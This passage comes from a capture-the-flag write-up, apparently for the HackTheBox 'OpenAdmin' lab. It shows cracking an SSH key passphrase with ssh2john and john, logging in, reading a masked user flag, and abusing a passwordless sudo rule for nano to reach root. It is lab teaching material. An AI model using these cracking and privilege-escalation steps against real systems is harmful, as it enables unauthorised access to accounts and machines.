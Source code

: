 The private key is protected with a passphrase, so we use `ssh2john` along with `john` to crack the passphrase

{% highlight bash %}
$ python /usr/share/john/ssh2john.py id_rsa > joanna.hash
$ john --wordlist=/usr/share/wordlists/rockyou.txt joanna.hash 
Using default input encoding: UTF-8
Loaded 1 password hash (SSH [RSA/DSA/EC/OPENSSH (SSH private keys) 32/64])
Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 0 for all loaded hashes
Cost 2 (iteration count) is 1 for all loaded hashes
Will run 6 OpenMP threads
Note: This format may emit false positives, so it will keep trying even after
finding a possible candidate.
Press 'q' or Ctrl-C to abort, almost any other key for status
bloodninjas      (id_rsa)
1g 0:00:00:05 DONE (2020-05-01 05:12) 0.1858g/s 2665Kp/s 2665Kc/s 2665KC/s     1990..*7¡Vamos!
Session completed
{% endhighlight %}

# user.txt

Now, we can finally get our `user.txt`.

{% highlight bash %}
$ ssh -i id_rsa joanna@openadmin.htb
Enter passphrase for key 'id_rsa': bloodninjas
...
joanna@openadmin:~$ cat user.txt
c9b2XXXXXXXXXXXXXXXXXXXXXXXXXXXX
{% endhighlight %}

# Enumeration (2)

If we list the commands we can run `sudo` with,

{% highlight bash %}
joanna@openadmin:~$ sudo -l 
Matching Defaults entries for joanna on openadmin:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User joanna may run the following commands on openadmin:
    (ALL) NOPASSWD: /bin/nano /opt/priv
{% endhighlight %}


# root.txt

`joanna` can run `nano` as `root`! And according to [`GTFOBins`](https://gtfobins.github.io/gtfobins/nano/), we can spawn a shell as `root`.

Creating `/opt/priv` and running `nano` using `sudo` on `/opt/priv`:
